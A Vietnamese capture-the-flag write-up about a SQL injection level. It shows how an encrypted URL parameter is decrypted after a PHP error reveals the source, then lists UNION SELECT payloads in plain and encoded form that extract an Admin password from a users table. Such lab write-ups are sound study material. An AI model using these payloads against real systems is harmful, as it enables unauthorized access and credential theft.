






## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 5/5/2022

- Sau khi thử loginbypass và union, trang web không có dấu hiệu bất thường.
- Ta thử vào 2 user là <code>TheCow</code> và <code>Admin</code>. Ta thấy địa chỉ url hơi khác thường <code>usr=MDQyMjExMDE0MTgyMTQw</code>. Đây có thể là dữ liệu đã bị mã hóa và ta cần tìm cách giải mã.
- Nhưng sau khi thực hiện giải mã thuật toán này dưới nhiều thuật toán khác nhau vẫn không cho ra kết quả. Ta thử chèn một số kí hiệu gây lỗi vào url. Và với lần thử <code>usr[]=MDQyMjExMDE0MTgyMTQw</code>, ta nhận được thông báo lỗi <code>Warning: preg_match() expects parameter 2 to be string, array given in /var/www/html/hackit/urlcrypt.inc on line 26</code>.

  

- Sau khi thử truy cập vào trang <code>urlcrypt.inc</code>. Ta có được 2 hàm là mã hóa và giải mã.
  
  

- Tiếp theo ta thử giải mã của <code>TheCow</code> là <code>MDYzMjIzMDA2MTU2MTQxMjU0</code>
  
  

- Vậy, đây là dữ liệu mã hóa. Ta thử thực hiện chèn tấn công uinon. Sau vài lần thử, ta có được số cột là 7 với <code>' union select 1,2,3,4,5,6,7#</code> sau khi thực hiện mã hóa thành <code>MDc2MTUxMDIyMTc3MTM5MjMwMTQ1MDI0MjA5MTAwMTc3MTUzMDc0MTg3MDk1MDg0MjQzMDgzMTc3MDg5MDMzMjIzMjQzMTk0MDcyMjM2MTMwMjAzMTY2</code>
  
   

- Và giờ là bước cuối cùng, sau khi có cột ta dùng <code>' union select 1,username,3,4,5,password,7 from level3_users where username='Admin'#</code> sau khi thực hiện mã hóa thành <code>MDc2MTUxMDIyMTc3MTM5MjMwMTQ1MDI0MjA5MTAwMTc3MTUzMDc0MTg3MDk1MDg0MjQzMDIwMjM4MDE1MTI3MTMzMTkwMTU0MDAxMjQ2MTU3MjA4MTc3MDk2MTI4MjIwMTE2MTIxMTYzMTQ5MjEzMTYwMTA4MDMyMjUyMjAzMDk3MTU2MTkwMTc1MDEzMTM5MDc4MTU1MDk2MDg1MTM0MTk3MTE5MDU5MTYzMTc4MDU2MDM3MDAzMTM2MDQ3MDY2MTA2MTE0MDQ2MjA2MTQ4MDcyMTQxMjE0MDc1MDQ0MjE1MjAzMDM3MDgyMTk4MDcyMTIzMjE1MTE0MjIz</code>
  
  

- Như vậy, ta có user là <code>Admin</code> và password là <code>thisisaverysecurepasswordEEE5rt</code>. Ta thực hiện đang nhập và thành công.
  
  